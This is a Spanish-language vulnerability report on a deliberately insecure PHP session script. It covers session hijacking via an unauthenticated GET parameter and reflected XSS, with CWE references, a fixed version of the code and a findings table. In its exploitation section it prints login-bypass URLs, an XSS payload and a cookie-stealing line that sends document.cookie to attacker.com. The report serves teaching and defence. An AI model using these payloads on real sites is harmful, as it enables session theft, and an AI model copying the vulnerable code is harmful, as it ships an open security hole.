




# Gestión de sesiones 

El Session Management (gestión de sesiones) es un mecanismo que permite a las aplicaciones web rastrear y mantener el estado de los usuarios a lo largo de múltiples solicitudes HTTP. Una mala implementación puede exponer la aplicación a ataques como Session Hijacking (secuestro de sesión) o reutilización de tokens para suplantación de identidad.

# Informe de Vulnerabilidades de Autenticación y Gestión de Sesiones

## Gestión de Sesiones Insegura

### Descripción del código vulnerable

El archivo `session.php` implementa un mecanismo de inicio de sesión basado directamente en parámetros GET:

```php
<?php
session_start();
$_SESSION['user'] = $_GET['user']; //  Input sin validar ni sanitizar
echo "Sesión iniciada como: " . $_SESSION['user']; //  Output sin escapar
?>
```

Este código presenta múltiples fallos graves: toma el nombre de usuario directamente de la URL sin autenticación, sin validación y sin escapar el output antes de mostrarlo en el navegador.

### Vulnerabilidades identificadas

####  Session Hijacking / Fijación de sesión (CWE-384)
El valor de `$_SESSION['user']` se establece sin ningún proceso de autenticación real. Cualquier visitante puede pasar cualquier valor por la URL y el servidor lo acepta como sesión legítima.

####  Cross-Site Scripting Reflejado — XSS (CWE-79)
El valor de `$_GET['user']` se imprime directamente en el HTML sin aplicar `htmlspecialchars()` ni ningún otro mecanismo de escapado. Esto permite inyectar y ejecutar código JavaScript arbitrario en el navegador de la víctima.

### Explotación

#### Ataque 1 — Session Hijacking

El atacante accede a la aplicación como cualquier usuario privilegiado simplemente modificando el parámetro `user` en la URL, sin necesidad de conocer ninguna contraseña:

```
http://localhost/session.php?user=root        →  Sesión iniciada como: root
http://localhost/session.php?user=superadmin  →  Sesión iniciada como: superadmin
http://localhost/session.php?user=admin       →  Sesión iniciada como: admin
```

> *Captura 1: Acceso como usuario "root" sin credenciales*  



> *Captura 2: Acceso como usuario "superadmin" sin credenciales*  



> *Captura 3: Acceso como usuario "admin" sin credenciales*



Este ataque demuestra que la aplicación **no tiene ningún mecanismo de autenticación real**: el control de acceso está completamente roto.

#### Ataque 2 — XSS Reflejado

Se inyecta un script JavaScript malicioso a través del parámetro `user`:

```
http://localhost/session.php?user=<script>alert('XSS')</script>
```

El navegador ejecuta el script inmediatamente al cargar la página, mostrando el alert con el mensaje `XSS`. En un escenario real, este vector podría utilizarse para:

- Robar cookies de sesión: `document.location='http://attacker.com/?c='+document.cookie`
- Redirigir a páginas de phishing
- Capturar pulsaciones de teclado (keylogging)
- Modificar el DOM de la página para engañar al usuario



### Mitigación

```php
<?php
session_start();

//  Regenerar el ID de sesión para prevenir Session Fixation
session_regenerate_id(true);

//  Validar contra una lista blanca de usuarios permitidos
$allowed_users = ['admin', 'user1', 'user2'];
$input = $_GET['user'] ?? '';

if (in_array($input, $allowed_users, true)) {
    //  Escapar el output para prevenir XSS
    $_SESSION['user'] = htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
    echo "Sesión iniciada como: " . $_SESSION['user'];
} else {
    http_response_code(403);
    echo "Acceso denegado: usuario no autorizado";
}
?>
```

| Medida | Vulnerabilidad que mitiga |
|---|---|
| `session_regenerate_id(true)` | Session Fixation — genera un nuevo ID tras autenticar |
| `in_array()` con lista blanca | Session Hijacking — solo acepta usuarios válidos |
| `htmlspecialchars()` | XSS — convierte `<script>` en texto inofensivo |
| `http_response_code(403)` | Respuesta semántica correcta ante acceso no autorizado |
| Autenticación real (contraseña/token) | Sustituir el parámetro GET por un sistema de login real |

---

## Resumen de Hallazgos

| # | Archivo | Vulnerabilidad | Severidad | CWE |
|---|---|---|---|---|
| 1 | session.php | Session Hijacking / Fixation |  Alta | CWE-384 |
| 2 | session.php | XSS Reflejado |  Alta | CWE-79 |
